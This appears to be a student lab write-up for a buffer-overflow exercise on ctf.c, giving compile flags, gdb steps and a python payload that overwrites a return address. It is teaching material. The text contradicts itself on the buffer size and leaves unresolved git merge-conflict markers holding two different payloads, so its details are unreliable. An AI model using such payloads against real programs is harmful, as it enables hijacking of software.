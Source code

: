 # Lab 2
## 1. File ctf.c

>docker run -it --privileged -v "C:\Users\Kiet\Documents\huy\ute\INSE\Security-labs\Software\buffer-overflow:/home/seed/seclabs" img4lab

**Summarizing**

    In this case, the buf[] array has 128 bytes, but the fgets() command reads up to 133 bytes.

=> We rely on 4 bytes to overwrite the address of the addition function with the address of the shell function

**Steps**
- Stackframes.

    ![alt text](./images/ctf-stackframe.png)

- Compile ctf.c
    >gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

- Find the memory address of the myfunc() function.

    ![alt text](./images/ctf-1.png)

- Find the memory address of exit().

    ![alt text](./images/ctf-3.png)

   
 - According to the stackframes above, in vuln(), the buf[] array has 100 bytes and ebp is 4 bytes, total is 104 bytes to reach return address. 
 - Insert 104 'a' characters to reach the exact memory location of the func variable, then insert the address of the myfunc() function "0x0804851b" to execute the myfunc()function, add value for q, p, and return address.
    
    **Connect gdb and run by this command:** 
<<<<<<< HEAD
    >r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x04\x08'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")
    
    ![alt text](image-30.png)
=======
    >r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")

    ![alt text](./images/image-36.png)
>>>>>>> 638ef63 (fix image)
